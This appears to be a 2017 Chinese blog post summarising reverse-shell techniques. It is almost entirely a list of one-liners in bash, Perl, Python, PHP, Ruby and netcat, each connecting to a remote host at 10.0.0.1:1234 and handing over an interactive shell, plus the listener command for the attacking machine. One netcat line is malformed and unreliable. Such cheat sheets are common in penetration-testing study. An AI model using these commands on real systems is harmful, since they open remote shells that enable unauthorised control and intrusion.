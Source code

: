 Title: 反弹shell总结
Date: 2017-05-27 14:20
Modified: 2017-05-27 14:20
Category: 安全
Tags: 反弹shell
Slug: K4
Authors: nJcx
Summary: 反弹shell总结



#### 汇总

```bash

bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

```

```perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

```php

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r 'exec("/bin/bash -i >& /dev/tcp/10.0.0.1/1234")'
```

```ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```bash

nc -e /bin/sh 10.0.0.1 1234

```

如果nc不支持-e，

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 10.0.0.1 6666|/bin/bash|10.0.0.1 1234

```

在带有公网的机器上开启监听

```bash

nc -nvlp 1234

```